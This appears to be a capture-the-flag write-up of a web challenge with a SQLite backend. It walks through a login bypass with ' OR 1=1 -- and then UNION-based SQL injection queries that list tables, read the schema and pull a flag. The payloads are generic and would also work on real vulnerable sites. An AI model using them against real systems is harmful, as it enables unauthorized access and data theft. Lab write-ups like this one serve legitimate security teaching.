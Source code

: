 ### Login

At the start, we know that the website uses SQLi.

First input field is for a login and password.  
![login](image-2.png)  

After inputing data, it shows us the SQL query it uses, that gives us information that we can use 
```sql
' OR 1=1 --
```
 as a input. We only need it in password field, because password is checked first and '--' makes it so everything after it is commented out.

This logs us in.
## Adresses

Logging in displays a list of addresses with phone numbers, which are essentially meaningless. We can begin by confirming the number of columns.

![adresses](image-8.png)


### Base Exploit  

This is how our exploit (union injection) will work.

1. **`-1`**: This is an ID that is never used.
2. **`'`**: Ends the input string and allows us to start our own query.
3. **Injected Query**: This is where we insert our custom SQL query.
4. **`--`**: Used to comment out the rest of the line, ensuring the original query is ignored.

This style will be also used for the rest of this CTF.


### Exploiting DB
So our final command for confirming columns is :
```sql
-1'UNION SELECT 1,2,3--
```

![columns](image.png)


Now it would be good to check version of our sqli_lite DB, we can change our previous command a little bit  
```sql
-1' UNION SELECT sqlite_version(),2,3--+
```
![version](image-1.png)

Now we can check ExploitDB or google a little bit for finding exploits of this particular version.

I have found and used these 2 for this CTF.

```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md  
	
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
```


Now we can use queries from these 2 links for rest of the CTF.

For finding tables we shall use :
```sql
-1' UNION SELECT 1,group_concat(tbl_name),3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```

![tables](image-3.png)

Then we know, that our tables are  
`users,offices,hints,more_table`

After that, we need to gain names of table columns.

```sql
-1' union SELECT 1,sql,3 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='more_table' --
```

![columns](image-6.png)

The output is query that was used to create that table, in our case :
```sql
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
```
From this, we know that more_table has two columns, one is `id` and the second one is `flag` in TEXT format.
It is pretty self-explanatory.

Our final injection is getting the flag from table.

```sql
-1' union Select 1,flag,3 from more_table --
```
![alt text](image-7.png)


